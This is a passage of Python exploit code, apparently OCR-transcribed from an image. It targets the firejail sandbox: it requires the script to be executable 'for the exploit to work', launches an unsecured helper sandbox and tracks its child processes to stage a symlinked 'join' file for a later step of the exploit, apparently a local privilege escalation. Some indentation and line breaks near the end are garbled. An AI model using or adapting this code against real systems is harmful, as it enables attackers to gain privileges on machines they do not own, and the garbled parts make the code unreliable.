 ```python
    subprocess.check_call("mount --bind".split() + [src, dst])

def checkSelfExecutable():
    s = os.stat(__file__)

    if (s.st_mode & stat.S_IXUSR) == 0:
        printe(f"{__file__} needs to have the execute bit set for the exploit to \
work. Run `chmod +x {__file__}` and try again.")

# This creates a "helper" sandbox that serves the purpose of making available
# a proper "join" file for symlinking to as part of the exploit later on.
#
# Returns a tuple of (proc, join_file), where proc is the running subprocess
# (it needs to continue running until the exploit happened) and join_file is
# the path to the join file to use for the exploit.
def createHelperSandbox():
    # just run a long sleep command in an unsecured sandbox
    proc = subprocess.Popen(
            "firejail --noprofile -- sleep 10d".split(),
            stderr=subprocess.PIPE)

    # read out the child PID from the stderr output of firejail
    while True:
        line = proc.stderr.readline()
        if not line:
            raise Exception("helper sandbox creation failed")

        # on stderr a line of the form "Parent pid <ppid>, child pid <pid>" is output
        line = line.decode('utf8').strip().lower()
        if line.find("child pid") == -1:
            continue

        child_pid = line.split()[-1]

        try:
            child_pid = int(child_pid)
            break
        except Exception:
            raise Exception("failed to determine child pid from helper sandbox")

    # We need to find the child process of the child PID, this is the
    # actual sleep process that has an accessible root filesystem in /proc
    children = f"/proc/{child_pid}/task/{child_pid}/children"

    # If we are too quick then the child does not exist yet, so sleep a bit
    for _ in range(10):
        with open(children) as cfd:
            line = cfd.read().strip()
            kids = line.split()
            if not kids:
                time.sleep(0.5)
                continue
            elif len(kids) != 1:
                raise Exception(f"failed to determine sleep child PID from helper \
sandbox: {kids}")

            try:
                sleep_pid = int(kids[0])
                break
            except Exception:
                raise Exception("failed to determine sleep child PID from helper \sandbox")  
            else:
                raise Exception(f"sleep child process did not come into existence in {children}")
```